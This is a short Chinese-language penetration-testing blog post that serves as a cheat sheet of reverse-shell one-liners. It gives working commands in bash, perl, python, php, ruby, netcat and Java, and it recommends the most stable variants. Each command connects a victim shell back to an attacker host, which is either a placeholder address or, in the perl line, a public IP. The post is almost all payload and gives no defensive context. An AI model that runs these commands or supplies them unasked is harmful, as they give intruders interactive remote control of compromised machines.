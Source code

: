 ```yaml
---
title: 各种反弹shell姿势
date: 2017-09-11 17:51:45
tags: 
	- 渗透
	- 内网
categories: 渗透
---
```


除以下介绍的一句话反弹shell姿势外，还有一种back.py反弹，推荐
bash版本，注意修改端口

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

perl版本

    perl -e 'use Socket;$i="103.59.216.27";$p=18888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python版本，推荐，较稳定

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php版本，某些PHP大马中有集成此功能

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby版本

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc版本

    nc -e /bin/sh 10.0.0.1 1234
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
    nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

java版本，JSPSPY中有集成，比较稳定，推荐

    r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()

